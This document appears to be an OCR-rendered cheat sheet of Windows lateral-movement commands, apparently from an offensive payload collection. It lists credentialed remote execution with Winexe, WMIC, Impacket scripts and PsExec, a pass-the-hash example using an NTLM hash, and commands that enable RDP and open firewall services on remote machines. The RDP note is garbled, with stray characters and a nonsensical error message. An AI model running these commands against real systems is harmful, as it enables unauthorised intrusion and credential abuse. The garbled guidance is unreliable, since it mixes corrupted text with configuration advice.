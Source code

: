## Winexe 
Integrated to Kali
```powershell
>root@payload$ winexe -U DOMAIN/username%password //10.10.10.10 cmd.exe
```
## WMI
```powershell
PS C:\> wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
```
## Psexec.py / Smbexec.py / Wmiexec.py 
>>>From [Impacket](https://github.com/SecureAuthCorp/impacket) (:warning: renamed to impacket-xxx in Kali)
:warning: `get` / `put` for wmiexec, psexec, smbexec, and dcomexec are changing to `lget` and `lput`.
```powershell
>root@payload$ git clone https://github.com/CoreSecurity/impacket.git
# PSEXEC like functionality example using RemComSv
>root@payload$ python psexec.py DOMAIN/username:password@10.10.10.10
# this will drop a binary on the disk = noisy
# A similar approach to PSEXEC w/o using RemComSvc
>root@payload$ python smbexec.py DOMAIN/username:password@10.10.10.10
# A semi-interactive shell, used through (WMIC) Windows Management Instrumentation. 
>root@payload$ python wmiexec.py DOMAIN/username:password@10.10.10.10
>root@payload$ wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
# A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. 
>root@payload$ python atexec.py DOMAIN/username:password@10.10.10.10
# Executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
>root@payload$ python dcomexec.py DOMAIN/username:password@10.10.10.10
```
## PsExec - Sysinternal
>>>from Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)
```powershell
PS C:\> PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe
# switch admin user to NT Authority/System
PS C:\> PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s 
```
## RDP Remote Desktop Protocol 
[!]:warning: **NOTE**: You may need to enable RDP
> -Disable Network-Level-Authentication (NLA) 
> -Fix --Cred | Support System Program (SSP.)
> I.E. ERROR Failed to create FileSharing. 数据。代换。放！. Run-timex32.dll 
```powershell
# Enable RDP
PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
PS C:\> netsh firewall set service remoteadmin enable
PS C:\> netsh firewall set service remotedesktop enable
# Alternative
> C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
root@payload$ crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
# Fix CredSSP errors
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

[DC01]: PS>
